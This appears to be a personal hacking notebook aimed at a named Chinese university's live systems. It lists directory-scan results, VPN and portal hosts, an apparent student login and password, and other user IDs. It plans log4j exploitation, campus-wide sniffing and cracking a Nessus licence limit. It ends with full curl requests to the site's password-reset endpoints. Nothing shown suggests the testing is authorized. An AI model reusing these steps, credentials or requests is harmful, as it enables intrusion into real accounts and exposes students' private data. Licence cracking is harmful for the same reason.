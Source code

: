 ```yaml
---
created: 2021-12-22T05:45:58+00:00
modified: 2022-02-08T09:31:04+00:00
---
```


# The Hack (Get password and tests)

dirbuster has found something over  "http://oa.lixin.edu.cn//test/"
+ http://oa.lixin.edu.cn//admin (CODE:301|SIZE:237)                            
+ http://oa.lixin.edu.cn//css (CODE:301|SIZE:235)                              
+ http://oa.lixin.edu.cn//help (CODE:301|SIZE:236)                             
+ http://oa.lixin.edu.cn//images (CODE:301|SIZE:238)                           
+ http://oa.lixin.edu.cn//js (CODE:301|SIZE:234)                               
+ http://oa.lixin.edu.cn//setup (CODE:301|SIZE:237)                            
+ http://oa.lixin.edu.cn//template (CODE:301|SIZE:240)                         
+ http://oa.lixin.edu.cn//test (CODE:301|SIZE:236)                             
+ http://oa.lixin.edu.cn///admin (CODE:301|SIZE:237)                           
+ http://oa.lixin.edu.cn///help (CODE:301|SIZE:236)                            
+ http://oa.lixin.edu.cn///images (CODE:301|SIZE:238)                          
+ http://oa.lixin.edu.cn///script (CODE:301|SIZE:238)  

suspicious:
http://oa.lixin.edu.cn/oanew/sys/taskcenterapp/*default/index.do


portal (even in the internet):
http://202.121.255.3:8080/portal

Scan this website with kali linux.

The Intranet Gateway For Campus: (maybe less hops?)
https://app.topsec.com.cn

mitmdump --mode socks5 --listen-port 8050 -w logs.log --flow-detail 3 --set stream_websocket=true

pdvpn.lixin.edu.cn
pdvpn2.lixin.edu.cn
vpn.lixin.edu.cn
vpn2.lixin.edu.cn

xxb.lixin.edu.cn/jszl/57078.htm

201960630:CHENweiyi0519

https://cas.paas.lixin.edu.cn/cas/login?service=https%3A%2F%2Flxjw.lixin.edu.cn%2Fcas%2Flogin

https://security-center.paas.lixin.edu.cn/find-pwd

20039370

missing puzzle for changing password:

trial user:
201960249

found russia hacker's kali tool site: https://en.kali.tools/all/

apparently we have some issue with log4j and this could be our way in, the damn server.

sniffing the whole damn campus is only possible if we know how to get into the same subnet of all people.

have searched related websites with site:lixin.edu.cn, could get more if keep doing so, using dnsenum.

to get all site links with proper titles, we need to use playwright.

nessus scanner has that 16 ips limitation, we need to crack/patch it first.

to master kali linux, recommend to scrape kali_tools (https://tools.kali.org/) and tutorialspoint (https://www.tutorialspoint.com/kali_linux/index.htm) for kali, or just simply using manpage.

cisco router is untouched till now. need we to scan it?
(intermediate ip addresses)

curl 'https://personal-security-center.paas.lixin.edu.cn/api/v1/personal/open/passwordStrategy/verify' \
  -H 'Connection: keep-alive' \
  -H 'sec-ch-ua: "(Not(A:Brand";v="8", "Chromium";v="98", "Google Chrome";v="98"' \
  -H 'Accept: application/json, text/plain, */*' \
  -H 'Content-Type: application/json;charset=UTF-8' \
  -H 'sec-ch-ua-mobile: ?0' \
  -H 'User-Agent: Mozilla/5.0 (X11; CrOS aarch64 14371.0.0) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/98.0.4729.0 Safari/537.36' \
  -H 'sec-ch-ua-platform: "Chrome OS"' \
  -H 'Origin: https://security-center.paas.lixin.edu.cn' \
  -H 'Sec-Fetch-Site: same-site' \
  -H 'Sec-Fetch-Mode: cors' \
  -H 'Sec-Fetch-Dest: empty' \
  -H 'Referer: https://security-center.paas.lixin.edu.cn/' \
  -H 'Accept-Language: en-US,en;q=0.9' \
  --data-raw '{"password":"abcdefABC","userId":""}' \
  --compressed

curl 'https://personal-security-center.paas.lixin.edu.cn/api/v1/personal/open/forgotPassword/changePassword' \
  -H 'Connection: keep-alive' \
  -H 'sec-ch-ua: "(Not(A:Brand";v="8", "Chromium";v="98", "Google Chrome";v="98"' \
  -H 'Accept: application/json, text/plain, */*' \
  -H 'Content-Type: application/json;charset=UTF-8' \
  -H 'sec-ch-ua-mobile: ?0' \
  -H 'User-Agent: Mozilla/5.0 (X11; CrOS aarch64 14371.0.0) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/98.0.4729.0 Safari/537.36' \
  -H 'sec-ch-ua-platform: "Chrome OS"' \
  -H 'Origin: https://security-center.paas.lixin.edu.cn' \
  -H 'Sec-Fetch-Site: same-site' \
  -H 'Sec-Fetch-Mode: cors' \
  -H 'Sec-Fetch-Dest: empty' \
  -H 'Referer: https://security-center.paas.lixin.edu.cn/' \
  -H 'Accept-Language: en-US,en;q=0.9' \
  --data-raw '{"confirmPassword":"abc123ABC","newPassword":"abc123ABC","nonce":"YzhhZmZjYzktNWQ3Ny00MGU1LTg0ODgtYTYzZTMzMDZkMjU0XzE2NDAyNjg5MzcyNTY"}' \
  --compressed
